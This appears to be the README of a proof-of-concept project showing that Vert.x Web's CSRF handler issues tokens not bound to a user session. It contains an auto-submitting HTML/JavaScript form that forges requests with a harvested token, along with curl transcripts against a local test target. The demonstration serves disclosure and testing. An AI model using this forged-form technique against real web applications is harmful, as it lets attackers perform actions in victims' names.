

## Overview ##

The CSRFHandlerImpl (`io.vertx.ext.web.handler.impl.CSRFHandlerImpl`) in Vert.x Web does not create CSRF Tokens that are unique per user session. A malicious website can still perform CSRF by obtaining a valid CSRF token and adding it to a HTML form and then submitting the form to the vulnerable web application.

Currently, the pre-flight CORS OPTIONS HTTP request prevents CSRF via XMLHTTPRequests, however, there might be a way to circumvent the pre-flight request. 

## Building ##

```
mvn clean package
```

## Testing ##

The application starts HTTP endpoints:
* Port 7777 hosts the malicious website 
* Port 8888 hosts the target website

Create a host entry for `target.local`, to ensure that the attacker and the target are not on the same domain.

The attacker web server will automatically poll the `target.local:8888` webpage for a valid XSRF token. If a user then navigates to the `http://localhost:7777` in their browser it will render an HTML page with an iframe. The iframe will be populated with a form with a valid X-XSRF-TOKEN form attribute that is automatically submitted to `target.local:8888`.

### Running ###

```
java -jar target/vertx-xsrf-1.0-SNAPSHOT-fat.jar
```

## Observed Behaviour ##

#### Chrome PoC ####



```
<html>
<head>
</head>
<body>
<script>
var xsrftoken = "eWVJYuhAGvXRuaJFwiY7LBDg6Bk0/llUKea9Q8gIWxY=.1528880809229.awJQ69rmd18ATeEVqH0XC1EAjKXYfzPcIEAse9+ym1o=";

var f = document.createElement("form");
f.setAttribute('method', "post");
f.setAttribute('action', "http://target.local:8888/token");

var i = document.createElement("input"); 
i.setAttribute('type', "text");
i.setAttribute('name', "X-XSRF-TOKEN");
i.setAttribute('value',xsrftoken);

var s = document.createElement("input"); 
s.setAttribute('type', "submit");
s.setAttribute('value', "Submit");

f.appendChild(i);
f.appendChild(s);

document.getElementsByTagName('body')[0].appendChild(f);

f.submit();


</script>
</body>
</html>
```

#### Obtaining X-XSRF-TOKEN ####

```
curl http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> GET /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Length: 8
< Set-Cookie: XSRF-TOKEN=KXTHspnG6reKqXCzpLPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=; Path=/
< Set-Cookie: vertx-web.session=13c681351dee77d572f4f9b16d0c65a5; Path=/
<
* Connection #0 to host target.local left intact
Success!
```
#### POST without X-XSRF-TOKEN ####

```
curl -X POST http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 403 Forbidden
< Content-Length: 9
<
* Connection #0 to host target.local left intact
Forbidden
```

#### Submitting Invalid X-XSRF-Token as HTTP Header ####

```
curl -X POST -H 'X-XSRF-TOKEN: THISISNOTAVALIDTOKENPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=' http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
> X-XSRF-TOKEN: THISISNOTAVALIDTOKENPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=
>
< HTTP/1.1 403 Forbidden
< Content-Length: 9
<
* Connection #0 to host target.local left intact
Forbidden
```

#### Submitting X-XSRF-Token as HTTP Header ####

```
curl -X POST -H 'X-XSRF-TOKEN: KXTHspnG6reKqXCzpLPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=' http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
> X-XSRF-TOKEN: KXTHspnG6reKqXCzpLPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=
>
< HTTP/1.1 200 OK
< Content-Length: 8
< Set-Cookie: vertx-web.session=23b96851535d983b458e92280ffe49f5; Path=/
<
* Connection #0 to host target.local left intact
Success!
```

#### Submitting Invalid X-XSRF-Token as formAttribute ####

```
curl --data 'X-XSRF-TOKEN=THISISNOTAVALIDTOKENPj0glJlO5DeMogcl5cuVVNUQg%3D.1528880169033.xENGuHNUEXi33wdIkIH%2BHlq7PSS%2B0QJgFQbOIVPnYq8%3D' http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
> Content-Length: 126
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 126 out of 126 bytes
< HTTP/1.1 403 Forbidden
< Content-Length: 9
<
* Connection #0 to host target.local left intact
Forbidden
```

#### Submitting X-XSRF-Token as formAttribute ####

```
curl --data 'X-XSRF-TOKEN=KXTHspnG6reKqXCzpLPj0glJlO5DeMogcl5cuVVNUQg%3D.1528880169033.xENGuHNUEXi33wdIkIH%2BHlq7PSS%2B0QJgFQbOIVPnYq8%3D' http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
> Content-Length: 124
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 124 out of 124 bytes
< HTTP/1.1 200 OK
< Content-Length: 8
< Set-Cookie: vertx-web.session=50deb90796d7babc77860be5ae36ae0e; Path=/
<
* Connection #0 to host target.local left intact
Success!
```